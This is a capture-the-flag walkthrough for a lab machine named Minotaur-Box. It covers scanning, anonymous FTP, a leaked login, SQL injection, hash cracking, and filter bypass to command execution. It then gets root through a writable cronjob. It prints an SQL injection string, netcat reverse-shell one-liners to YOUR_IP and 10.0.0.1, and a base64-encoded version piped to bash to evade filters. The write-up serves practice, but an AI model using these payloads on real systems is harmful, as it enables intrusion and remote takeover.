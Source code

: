 # Writeup Minotaur-Box

## Nmap scan

```
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x   3 nobody   nogroup      4096 Jun 15 14:57 pub
80/tcp   open  http     Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
443/tcp  open  ssl/http Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
| ssl-cert: Subject: commonName=localhost/organizationName=Apache Friends/stateOrProvinceName=Berlin/countryName=DE
| Not valid before: 2004-10-01T09:10:30
|_Not valid after:  2010-09-30T09:10:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

## FTP Server
you see you can login into ftp anonymously

you see these files -> download them 

```
drwxr-xr-x   2 root     root         4096 Jun 15 19:49 .secret
-rw-r--r--   1 root     root          141 Jun 15 14:57 message.txt
```

if you cd to .secret you get the flag and a note with a hint for the future

```
└─# cat keep_in_mind.txt 
Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur
```

## Web Server
lets focus on the web server now:
doing a quick dir-scan shows that the /logs dir is exposed to the public
you can find a post request log at http://[Machine_IP]/logs/post/post_log.log
where you can find a valid password and user name to login with
email=Daedalus&password=g2e55kh4ck5r

you get presented with an api interface where you can query for user data:
lets try quering for our user Daedalus
you will get back the name and hashed password of him
if you look at inspect element theres a hint hidden it tells you something about permissions ....

``` <!-- Minotaur!!! Told you not to keep permissions in the same shelf as all the others especially if the permission is equal to admin --> ```

if you look at the structure of the paramenters you see at the naming pattern (namePeoplenameCreature) there may be a parameter called permissionPeople
so lets try out an sql-injection with this information

``` Daedalus' OR permissionPeople='admin ```

you get this result gives you a new user: 

```5    M!n0taur    1765db9457f496a39859209ee81fbda4 ```

you can either crack this hash (rockyou list), or you can use a website like crackstation
now login with the new userinformation you got
user: M!n0taur password: aminotauro
and a link to an pannel called "secret echo pannel"
there you can echo some your input out witch internally executes the echo command but you somhow have to bypass the filters and gain RCE
when you find out `` is permitted and you execute commands with it (you have to execute them seperatly at ';' because this char is filterd )
the best way to bypass the filter is just with a base64 encoded reverse shell payload

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4243 >/tmp/f ```

to this

```cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgWU9VUl9JUCA0MjQzID4vdG1wL2Y=```

since the equals sign is also filterd you will have to remove it witch leaves you with this payload

```echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgWU9VUl9JUCA0MjQzID4vdG1wL2Y" | base64 -d | bash```

then you get access to to machine and find the user flag located in /home/user/

## Machine 
you see theres cronjob running on a file owend by root(location: /timer/timer.sh) but wrteable by everyone
add your reverse shell (use a different port this time)

```rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4243 >/tmp/f```

the location of the root flag is in the root folder



